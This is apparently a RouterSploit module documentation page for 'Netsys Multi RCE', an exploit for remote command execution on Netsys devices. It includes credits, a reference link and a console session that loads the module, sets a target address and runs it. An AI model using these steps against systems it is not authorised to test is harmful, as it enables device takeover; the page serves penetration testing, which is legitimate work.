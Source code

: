 # Netsys Multi RCE

## Description
Exploits Netsys multiple remote command execution vulnerabilities that allows executing commands on operating system level

## Authors
* admin <admin[at]bbs.00wz.top> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://bbs.00wz.top/forum.php?mod=viewthread&tid=12630](http://bbs.00wz.top/forum.php?mod=viewthread&tid=12630)

## Vulnerable devices
* Multiple Netsys

## Usage
```
rsf > use exploits/netsys/multi_rce
rsf (Netsys Multi RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       9090                 Target port


rsf (Netsys Multi RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netsys Multi RCE) > run
[*] Running module...
```

